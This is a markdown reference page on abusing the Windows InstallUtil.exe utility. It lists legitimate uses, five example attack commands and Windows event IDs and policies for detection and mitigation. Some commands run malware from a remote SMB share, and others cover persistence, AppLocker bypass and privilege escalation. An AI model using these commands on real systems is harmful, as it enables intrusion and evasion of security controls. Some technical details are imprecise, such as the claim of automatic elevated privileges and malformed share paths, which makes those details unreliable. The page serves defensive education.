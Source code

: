 # InstallUtil.exe
## What is it?
*```InstallUtil.exe``` is a built-in .NET Framework utility used to install and uninstall .NET assemblies (applications or services).*
*It is typically used for managing Windows services and configuring applications that are built with .NET, making it a legitimate and useful tool for system administrators and application developers.*

## Legitimate Usage
- **Install .NET Applications** → Install or uninstall .NET applications and services (```InstallUtil /i MyApp.exe```).
- **Service Management** → Install services and configure their settings.
- **Uninstall .NET Applications** → Remove previously installed .NET applications and their components (```InstallUtil /u MyApp.exe```).
- **Configure Custom Installations** → Use the tool in custom installation scripts to automate deployment.

## How to abuse it
- **Malicious Payload Execution** → Attackers can use ```InstallUtil.exe``` to execute malicious payloads, as it allows running any .NET code embedded in an assembly (EXE or DLL).
- **Bypassing Security Controls** → Because ```InstallUtil.exe``` is a trusted system utility, security software might overlook it, making it effective for evading detection.
- **Persistence** → Attackers can use it to install persistent malware as a service or application on the target machine.
- **Privilege Escalation** → ```InstallUtil.exe``` can be used to execute arbitrary .NET code that may escalate privileges or bypass security mechanisms.
- **Lateral Movement** → Attackers can move malicious payloads across the network and execute them remotely using ```InstallUtil.exe```.

## Example attacks
### 1. Installing Malicious Payload
*Attackers can use ```InstallUtil.exe``` to install a malicious payload or malware by executing a malicious assembly (EXE or DLL).*
**Execute Malicious Payload via InstallUtil**

```
InstallUtil.exe /i \192.168.1.100\Malware\malware.exe
```

**Effect:**
- ```InstallUtil.exe``` installs and executes the malicious payload from the remote network share.
- The payload runs with elevated privileges, potentially gaining persistence as a service.

### 2. Persistence via Malicious Service Installation
*Attackers can use ```InstallUtil.exe``` to install a malicious service on the target machine, ensuring persistence.*
**Install Malicious Service**

```
InstallUtil.exe /i C:\Malware\malicious_service.exe
```

**Effect:**
- Installs a malicious service that will run automatically on startup, ensuring persistence even after reboots.

### 3. Lateral Movement via SMB
*Attackers can use ```InstallUtil.exe``` to remotely execute a malicious payload on another machine within the network.*
**Execute Malicious Payload Remotely via SMB**

```
InstallUtil.exe /i \192.168.1.100\Payload\malware.exe
```

**Effect:**
- ```InstallUtil.exe``` runs the malware remotely, allowing attackers to spread their attack across the network.

### 4. Bypassing Application Control
*Attackers can use ```InstallUtil.exe``` to bypass application control software or whitelisting mechanisms, as it is a legitimate and trusted Windows utility.*
**Bypass AppLocker by Using InstallUtil**

```
InstallUtil.exe /i C:\Malware\payload.dll
```

**Effect:**
- Even if execution of executables is restricted by AppLocker or Software Restriction Policies, ```InstallUtil.exe``` can still be used to run a malicious DLL.

### 5. Privilege Escalation via Malicious Assemblies
*Attackers can compile malicious .NET code that escalates privileges and execute it using ```InstallUtil.exe```.*
**Escalate Privileges via .NET Assembly**

```
InstallUtil.exe /i C:\Malware\PrivilegeEscalation.exe
```

**Effect:**
- The attacker executes a .NET assembly that escalates privileges, potentially gaining SYSTEM-level access.

# Detection & Mitigation
## Detection Methods
**Monitor InstallUtil.exe Usage**
- **Event ID 4688 (New Process Creation)** → Monitor for the creation of new processes, especially with ```InstallUtil.exe```.
- Look for unusual use of ```InstallUtil.exe``` that involves executing files from suspicious or uncommon locations (e.g., network shares).

**Monitor Service Installations**
- **Event ID 7045 (Service Installation)** → Detect the installation of new services that could indicate malicious persistence.
- **Event ID 4697 (Service Installed)** → Identify when services are installed via executable files such as malicious payloads.

**Monitor Unusual File Access**
- **Event ID 4663 (File Access)** → Watch for suspicious file accesses, such as the execution of remote payloads using ```InstallUtil.exe```.

## Mitigation Strategies
- **Restrict Use of InstallUtil.exe** → Limit the execution of ```InstallUtil.exe``` to authorized users and administrators, using application whitelisting tools like AppLocker or WDAC.
- **Monitor Network Shares** → Restrict or monitor SMB shares to prevent unauthorized remote execution.
- **Restrict Service Installation** → Use Group Policy or similar controls to restrict the installation of services on critical systems.
- **Use Security Monitoring Tools** → Leverage EDR and SIEM solutions to monitor for suspicious activity involving legitimate tools like ```InstallUtil.exe```.
